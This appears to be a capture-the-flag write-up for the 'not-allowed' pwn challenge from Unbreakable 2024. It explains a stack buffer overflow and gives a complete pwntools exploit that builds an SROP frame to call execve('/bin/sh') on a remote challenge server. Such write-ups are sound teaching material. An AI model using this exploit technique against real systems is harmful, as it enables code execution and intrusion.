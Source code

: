 ```yaml
---
title: not-allowed
date: 2024-04-07T14:23:28+03:00
description: Writeup for not-allowed [Unbreakable 2024]
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Silence speaks louder than words.

## Intuition

We receive a simple binary with two functions: *main* and *wish*. The main function sets up stream buffering with *setvbufs* and then does a call to fgets that is obviously overflowing the destination buffer.

```c
void main(void)
{
  char local_28 [32];
  
  setup(stdin,0,2,0);
  setup(stdout,0,2,0);
  setup(stderr,0,2,0);
  fgets(local_28,600,stdin);
  return;
}
```
Since the stack is NX, our remaining option is to ROP. Sadly we don't have a lot of gadgets, but we do notice a few important ones when dumping with ROPgadget:

```
0x00000000004011ce : inc al ; ret
0x0000000000401156 : pop rdi ; ret
0x000000000040101a : ret
0x0000000000401162 : sub eax, eax ; ret
0x00000000004011cc : syscall
```

We have control over RAX, RDI and we also have a syscall gadget. Sadly however, the imported libc functions do not let us print anythign! So we cannot leak libc and jump to *system* or *execve*. We can, however, do SROP! We can craft a signal return frame on the stack and then trigger it using a sigreturn syscall. But how do we get an address for ``/bin/sh``? The *wish* function has everything prepared for us:

```c
void wish(void)
{
  string[0] = 'H';
  string[1] = 'e';
  string[2] = 'r';
  string[3] = 'e';
  string[4] = ' ';
  string[5] = 'y';
  string[6] = 'o';
  string[7] = 'u';
  string[8] = ' ';
  string[9] = 'g';
  string[10] = 'o';
  string[11] = ':';
  string[12] = ' ';
  string[13] = '/';
  string[14] = 'b';
  string[15] = 'i';
  string[16] = 'n';
  string[17] = '/';
  string[18] = 's';
  string[19] = 'h';
  string[20] = '\0';
  return;
}
```
We simply need to get the address corresponding to ``string[13]`` and call this function before we use the sigreturn syscall. Binary is non-PIE so getting the addresses to all those gadgets and objects is trivial.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./not-allowed")
target = remote("34.141.109.85", 31555)

wish_addr = 0x00401175
sh_addr = 0x40407d
syscall_gadget = 0x4011cc
inc_al_gadget = p64(0x00000000004011ce)
zero_rax = p64(0x0000000000401161)

# frame that will call execve(/bin/sh)
frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

# 1. call wish
# 2. zero out rax w/ sub eax, eax
# 3. increment RAX to 15 (sigreturn)
# 4. syscall sigreturn
# 5. ???
# 6. profit
payload = b"a" * 0x28 + p64(wish_addr) + zero_rax + inc_al_gadget * 15 + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.interactive()
```

